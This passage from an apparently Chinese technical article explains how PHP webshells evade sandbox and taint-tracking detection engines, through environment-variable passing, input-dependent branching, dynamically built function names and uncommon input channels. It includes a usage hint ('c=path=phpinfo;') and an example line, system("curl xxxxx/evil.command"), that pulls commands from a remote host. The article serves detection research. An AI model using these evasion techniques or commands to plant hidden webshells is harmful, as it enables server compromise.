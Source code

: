 首先通过putenv传递变量，之后获取变量中的path内容，那么只需要传入c=path=phpinfo;即可完成利用。

这种样本在实际攻击中是容易成功的，因为只要是Linux操作系统，webserver进程一般都会有权限进行环境变量的操作。但是对于检测引擎来说，如果没有正确处理环境变量的存储和获取相关操作，污点参数就是传递失败。

### 4、攻击流量差分攻击

所谓的攻击流量差分攻击，是一种最常见的攻击绕过过段，其实也是一种思考问题的方式，突破防御，绕过的本质就是要寻找防御系统的差分点，对于PHP Webshell来说，外部传参流量就是一个很关键的差分点。

为了更好地说明这个沙箱，笔者这里引入两个概念，【静态可重入样本】以及【动态不可重复多模态样本】。

所谓【静态可重入样本】就是指大部分的传统的PHP Webshell样本，我们称之为“ **可重入单模态样本**”，这类样本尽管可以利用php的大量tricky特性、使用各种编码、加密手段，代码形式可以极尽复杂，例如

![](http://p4.itc.cn/q_70/images03/20200731/96429b85429b450c96796cff166afc18.png)

![](http://p1.itc.cn/q_70/images03/20200731/e03ec2f8ef224495b8c3129ef59bfef8.png)

但是，这种样本，究其根本，其本质都是“ **可重入的、单模态的**”，就是说 **不管运行多少次，谁来运行（受害者 or 旁路离线引擎），其运行结果都是一样的**。

从污点追踪理论的角度来说，这一阶段的沙箱，解决的是【 **显式污点传递问题**】，即污点信息流的传递在样本代码中是显式的，只要模拟执行一遍即可100%模拟。

另一方面，对于【动态不可重复多模态样本】来说，这样样本的重点不在于利用了php的哪些tricky语法特性，而在于它的“ **不可重入性、多模态性**”，我们下面用具体例子来解释。

4.1、 **动态依赖的分支跳转问题（根据输入的参数动态决定执行流和执行动作）**

![](http://p9.itc.cn/q_70/images03/20200731/7e3d4bc8318e41a383b16a4e403b6a7a.png)

对这个样本来说，外部参数就像一个之路的地图，标识了一个“road chain”，只有严格遵守这个“road chain”运行到最后，才可以看到样本的真实攻击意图。而这对业内很多旁路检测引擎来说，都是一个很大的挑战，在指数级的分支中，一旦走错了一个分支，就会被攻击者实现绕过。

4.2、基于外部参数动态生成函数名

![](http://p4.itc.cn/q_70/images03/20200731/5a7734d730544d69b6685d36decabd8f.png)

主要攻击以沙箱和动态AST引擎为代表的旁路离线检测技术，离线检测因为丢失了攻击现场的上下文信息，因此较难模拟实际的攻击行为。

4.3、 **不常见的外部参数传递方式**

对于业内常用的【污点追踪检测技术】，各家厂商基本都知道要把PHP常见的HTTP超参数标记为污点，例如GET/POST/COOKIE等。

但实际上，外部参数是一个泛概念，理论上来说，“ **一切外部可控的输入都是有害的，都需要被跟踪**”。外部可控的输入源是一个信道的概念，原则上，只要是符合“ **外部可控、内容可控**”这两个特点的方式，都属于 **外部可控输入**。它们包括但不限于：

* HTTP输入（GET/POST）参数
* * $GLOBALS\[‘\_GET’\]
  * $GLOBALS\[‘\_POST’\]
  * $GLOBALS\[‘\_COOKIE’\]
  * $GLOBALS\[‘\_FILES’\]
  * $GLOBALS\['GLOBALS'\]\['\_GET'\]
  * $GLOBALS\['GLOBALS'\]\['\_POST'\]
  * $GLOBALS\['GLOBALS'\]\['\_COOKIE'\]
  * $GLOBALS\['GLOBALS'\]\['\_FILES'\]
  * $\_GET
  * $\_POST
  * $\_COOKIE
  * $\_FILES
  * $\_REQUEST
* HTTP Header信息输入
* * getallheaders
* 网络信道输入：只要对源头api的return zval进行污点标记，随后污点标记会随着api sequence被传递
* * file\_get\_contents
  * socket\_create\_listen
  * socket\_listen
  * curl\_init
* 通过系统指令包装器执行网络相关指令，从外部网络获取指令信息
* * system：system\("curl xxxxx/evil.command"\)
  * popen
  * exec